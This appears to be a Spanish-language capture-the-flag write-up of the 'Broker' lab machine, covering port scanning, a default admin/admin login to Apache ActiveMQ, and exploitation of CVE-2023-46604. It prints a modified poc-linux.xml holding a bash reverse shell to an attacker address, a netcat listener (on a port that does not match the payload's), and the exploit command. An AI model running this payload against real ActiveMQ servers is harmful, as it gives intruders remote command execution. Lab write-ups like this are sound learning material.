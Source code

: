 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Broker

`10.10.11.243 Ip`

## Realizar un escaner de puertos con nmap.

```
sudo nmap -sS -p- -Pn --open 10.10.11.243 -vvv
```

**Puertos descubiertos**&#x20;

```
───────┼───────────────────────────────────────────────────────────────────────────────────────
   1   │ PORT      STATE SERVICE     REASON
   2   │ 22/tcp    open  ssh         syn-ack ttl 63
   3   │ 80/tcp    open  http        syn-ack ttl 63
   4   │ 1883/tcp  open  mqtt        syn-ack ttl 63
   5   │ 5672/tcp  open  amqp        syn-ack ttl 63
   6   │ 8161/tcp  open  patrol-snmp syn-ack ttl 63
   7   │ 40157/tcp open  unknown     syn-ack ttl 63
   8   │ 61613/tcp open  unknown     syn-ack ttl 63
   9   │ 61614/tcp open  unknown     syn-ack ttl 63
  10   │ 61616/tcp open  unknown     syn-ack ttl 63
```

### Servicios de puertos

```
 sudo nmap -sV -p 22,80,1883,5672,8161,40157,61613,61614,61616  10.10.11.243 -vvv
```

```
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt       syn-ack ttl 63
5672/tcp  open  amqp?      syn-ack ttl 63
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
40157/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

## Ir al navegador&#x20;

**Cuando fui al navegador a la direccion `10.10.11.243 Ip.`**

<figure><img src="../../../.gitbook/assets/SignIn.png" alt=""><figcaption></figcaption></figure>

**Realice una pruba con contraseña y usuario basica: admin y admin y logre ingresar a este sitio.**

<figure><img src="../../../.gitbook/assets/ActiveMQ.png" alt=""><figcaption></figcaption></figure>

**Hasta ahora puedo saber que utiliza el servicio ActiveMQ ,tambien lo descubrimos con nmap.**

```
   1  | 61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
   2  │ 61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

¿Qu**e es ActiveMQ**?

Apache ActiveMQ® es el intermediario de mensajes basado en Java, multiprotocolo y de código abierto más popular. Admite protocolos estándar de la industria para que los usuarios obtengan los beneficios de las opciones del cliente en una amplia gama de idiomas y plataformas. Conéctese desde clientes escritos en JavaScript, C, C++, Python, .Net y más. Integre sus aplicaciones multiplataforma utilizando el omnipresente protocolo AMQP . Intercambie mensajes entre sus aplicaciones web usando STOMP sobre websockets. Administre sus dispositivos IoT usando MQTT . Respalde su infraestructura JMS existente y más allá. ActiveMQ ofrece el poder y la flexibilidad para admitir cualquier caso de uso de mensajería.

{% embed url="https://activemq.apache.org/" %}

**Realizando una busqueda mas profunda descubri la vulnerabilidad CVE-2023-46604 de ActiveMQ con la version 5.15.15.**

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-46604?ref=blog.ecoit.com.br" %}

{% embed url="https://mvnrepository.com/artifact/org.apache.activemq/apache-activemq/5.15.15" %}

**La vulnerabilidad de trata de una ejecucion remota.**

**En github existe el codigo para poder explotar esa vulnervilidad.**

{% embed url="https://github.com/rootsecdev/CVE-2023-46604" %}

**Se hace un git clone.**

<figure><img src="../../../.gitbook/assets/Arch.png" alt=""><figcaption></figcaption></figure>

**Se modifica el archivo poc-linux.xml.**

````xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <!-- This command will give a reverse shell on port 9001. HTML Entity Encoded. Change IP as needed -->
            <value>bash -i &#x3E;&#x26; /dev/tcp/10.10.14.70/9001 0&#x3E;&#x26;1</value>
        </list>
        </constructor-arg>
    </bean>
</beans>

```
````

**Iniciamos un servidor HTTP Python3 en segundo plano e iniciamos un oyente Netcat.**

```
python3 -m http.server &
nc -lvvp 4444
```

**Luego se ejecuta el codigo.**

```go
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.70:8000/poc-linux.xml
```
